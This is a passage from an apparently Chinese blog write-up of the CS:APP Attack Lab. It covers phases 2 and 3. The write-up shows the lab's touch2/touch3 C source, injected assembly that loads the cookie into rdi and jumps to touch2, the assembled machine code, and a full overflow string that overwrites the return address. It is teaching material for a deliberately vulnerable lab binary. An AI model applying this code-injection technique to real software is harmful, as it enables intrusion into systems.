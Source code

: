 - Phase 2：
```c
void touch2(unsigned val)
{
    vlevel = 2; / * Part of validation protocol * /
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
在这个阶段，我们需要传递参数给 touch2 一个参数（第一个参数的寄存器是 rdi），我们只需要直接把类似于 cookie 的指针 mov 到 rdi 即可。那怎么通过某种机制执行呢？首先我们可以构造一段自己的代码并注入进去。
```asm
movq $0x59b997fa, %rdi
pushq $0x4017ec //touch2 的地址
ret // pop %rip，更新程序计数
```
通过这个段代码，我们可以把 cookie 的地址（程序已经给出）送入 rdi，同时执行 touch2 函数正确地比较。把汇编代码编译成可重定位地代码：`gcc -c p2.s -o p2.o` 已经反汇编得到机器码：`objdump -d p2.o`。输出如下：
```
p2.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
        c3
```
依次构建字符串：
```
48 c7 c7 fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00       // 一定注意是64位
```
![](https://ddayzzz-blog.oss-cn-shenzhen.aliyuncs.com/articles/csapp-attacklab/csapp-attacklab-level2-success.png)
- Phase 3：这次的 touch3 需要传递一个字符串参数同时字符串地比较在 hexmatch 函数中：
```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
```